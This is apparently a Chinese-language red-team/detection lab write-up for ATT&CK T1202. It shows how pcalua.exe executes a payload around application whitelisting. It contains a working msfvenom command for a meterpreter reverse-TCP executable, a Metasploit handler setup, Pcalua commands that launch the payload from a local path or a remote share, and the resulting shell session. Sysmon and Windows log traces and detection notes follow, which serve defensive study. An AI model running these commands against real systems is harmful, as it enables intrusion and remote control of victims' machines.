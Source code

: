 # T1202-win-间接命令执行-基于Pcalua执行payload(白名单)

## 来自ATT&CK的描述

可以使用各种Windows实用程序来执行命令，而不需要调用cmd。例如，Forfiles、程序兼容性助手（pcalua.exe）、WSL（WindowsSubsystem for Linux）组件以及其他实用程序可以从命令行界面、运行窗口或通过脚本来调用程序和命令的执行。

攻击者可能会滥用这些功能来规避防御，尤其是在破坏检测和/或缓解控制（如组策略）的同时执行任意动作。（这些控制限制/阻止了cmd或恶意负载相关文件扩展名的使用。）

## 测试案例

Windows进程兼容性助理(Program Compatibility Assistant)的一个组件。

说明：Pcalua.exe所在路径已被系统添加PATH环境变量中，因此，Pcalua命令可识别

Windows 7 默认位置：

C:\Windows\System32\pcalua.exe

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7

### 攻击分析

#### 生成payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=6666 -f exe > shell.exe
```

#### MSF配置

```bash
msf5 exploit(multi/handler) > back
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 5555
lport => 5555
msf5 exploit(multi/handler) > exploit
```

#### 靶机执行payload

```cmd
Pcalua -m -a \\192.168.1.119\share\shell.exe #可远程加载

Pcalua -m -a C:\Users\12306Br0\Desktop\a\shell.exe #可本地加载
```

#### 反弹shell

```bash
Msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:6666
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 4 opened (192.168.126.146:6666 -> 192.168.126.149:49163) at 2020-04-19 00:12:39 +0800

meterpreter > getuid
Server username: 12306Br0-PC\12306Br0
meterpreter > getpid
Current pid: 2804
```

## 测试留痕

```log
#sysmon日志
EventID: 1
Process Create:
RuleName:
UtcTime: 2020-04-18 16:12:37.744
ProcessGuid: {bb1f7c32-26f5-5e9b-0000-001075120e00}
ProcessId: 2148
Image: C:\Windows\System32\pcalua.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Program Compatibility Assistant
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName:
CommandLine: Pcalua  -m -a C:\Users\12306Br0\Desktop\a\shell.exe
CurrentDirectory: C:\Users\12306Br0\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-25f5-5e9b-0000-0020db6d0600}
LogonId: 0x66ddb
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=280038828C2412F3867DDB22E07759CB26F7D8EA
ParentProcessGuid: {bb1f7c32-26ca-5e9b-0000-00109cdf0d00}
ParentProcessId: 2724
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\system32\cmd.exe"

EventID: 1
Process Create:
RuleName:
UtcTime: 2020-04-18 16:12:37.775
ProcessGuid: {bb1f7c32-26f5-5e9b-0000-0010621a0e00}
ProcessId: 2804
Image: C:\Users\12306Br0\Desktop\a\shell.exe
FileVersion: 2.2.14
Description: ApacheBench command line utility
Product: Apache HTTP Server
Company: Apache Software Foundation
OriginalFileName: ab.exe
CommandLine: "C:\Users\12306Br0\Desktop\a\shell.exe"
CurrentDirectory: C:\Users\12306Br0\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-25f5-5e9b-0000-0020db6d0600}
LogonId: 0x66ddb
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=C11C194CA5D0570F1BC85BB012F145BAFC9A4D6C
ParentProcessGuid: {bb1f7c32-26f5-5e9b-0000-001075120e00}
ParentProcessId: 2148
ParentImage: C:\Windows\System32\pcalua.exe
ParentCommandLine: Pcalua  -m -a C:\Users\12306Br0\Desktop\a\shell.exe

#win7安全日志
EventID：4688
进程信息:
新进程 ID: 0x864
新进程名: C:\Windows\System32\pcalua.exe

EventID：4688
进程信息:
新进程 ID: 0xaf4
新进程名: C:\Users\12306Br0\Desktop\a\shell.exe

EventID：5156
应用程序信息:
进程 ID: 2804
应用程序名称: \device\harddiskvolume2\users\12306br0\desktop\a\shell.exe

网络信息:
方向: 出站
源地址: 192.168.126.149
源端口: 49163
目标地址: 192.168.126.146
目标端口: 6666
```

## 检测规则/思路

无具体检测。监控和分析基于主机的检测机制（如Sysmon）中的日志来查看事件，比如查看是否有进程创建事件（创建过程中使用了参数来调用程序/命令/文件/生成子进程/网络连接，或者该创建是由这些参数导致的）。

## 参考推荐

MITRE-ATT&CK-T1202

<https://attack.mitre.org/techniques/T1202/>

渗透测试-基于白名单执行payload--Pcalua

<https://blog.csdn.net/qq_17204441/article/details/89881795>
